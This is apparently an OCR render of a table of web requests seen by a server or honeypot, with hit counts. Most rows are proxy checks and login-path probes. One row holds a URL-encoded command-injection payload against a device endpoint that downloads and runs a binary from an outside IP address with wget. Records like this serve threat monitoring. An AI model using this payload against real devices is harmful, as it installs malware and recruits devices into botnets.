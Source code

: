 |   1 |                    21 | \x04\x01\x01\xBB\x00\x00\x00\x01proxychecker\x00api.ip.pn\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|   2 |                    21 | GET /users/users/users/users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|   3 |                    21 | CONNECT api.ip.pn:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|   4 |                    20 | GET /login.rsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|   5 |                     9 | GET /users/users/users/users/users/users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|   6 |                     6 | GET /restore.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|   7 |                     6 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |